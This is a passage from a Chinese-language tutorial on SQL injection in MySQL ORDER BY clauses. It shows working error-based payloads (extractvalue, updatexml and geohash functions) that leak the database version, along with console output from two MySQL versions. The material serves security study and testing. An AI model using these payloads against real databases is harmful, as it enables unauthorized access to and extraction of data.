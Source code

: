 如果列名可控，即为 `?orderby=id`的情况：

#### 1）XPath报错

```sql
mysql&gt; select * from users order by id/extractvalue(1,concat(&#39;~&#39;,(select version())));
ERROR 1105 (HY000): XPATH syntax error: &#39;~8.0.31&#39;

mysql&gt; select * from users order by id/updatexml(1,concat(0x7e,(select version()),0x7e),1);
ERROR 1105 (HY000): XPATH syntax error: &#39;~8.0.31~&#39;
```

#### 2）Geohash报错

```sql
# mysql 5.7.26
mysql&gt;  select * from users order by users.id/(ST_LongFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;5.7.26&#39; for function ST_LONGFROMGEOHASH
mysql&gt;
mysql&gt; select * from users order by users.id/(ST_PointFromGeoHash((select version()),1));
ERROR 1210 (HY000): Incorrect arguments to /
mysql&gt;
mysql&gt; select * from users order by users.id/(ST_LatFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;5.7.26&#39; for function ST_LATFROMGEOHASH
mysql&gt;
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165245962.png)



```sql
# mysql 8.0.31 
mysql&gt; select * from users order by id/(ST_LongFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;8.0.31&#39; for function ST_LONGFROMGEOHASH
mysql&gt; 
mysql&gt; select * from users order by id/(ST_PointFromGeoHash((select version()),1));
ERROR 1210 (HY000): Incorrect arguments to /
mysql&gt; 
mysql&gt; select * from users order by id/(ST_LatFromGeoHash((select version())));
ERROR 1411 (HY000): Incorrect geohash value: &#39;8.0.31&#39; for function ST_LATFROMGEOHASH
```

![图片](/resource/SQL注入之OrderBy位置点注入.assets/640-20230814165259586.png)
